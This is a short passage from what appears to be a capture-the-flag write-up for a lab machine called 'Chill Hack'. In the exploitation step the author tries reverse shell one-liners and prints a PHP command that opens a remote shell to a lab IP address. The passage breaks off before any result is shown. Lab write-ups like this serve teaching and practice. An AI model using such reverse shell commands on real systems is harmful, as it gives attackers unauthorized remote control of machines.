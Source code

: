 ![id.png](../assets/chill_hack_assets/id.png)

### Exploitation

Heading over to https://www.revshells.com/ I start experimenting with different types of reverse shell one-liners.

But I am having difficulty getting anything to work. Here I tried:

```text
php -r '$sock=fsockopen("10.6.61.45",443);exec("sh <&3 >&3 2>&3");'
```
and got back the following:
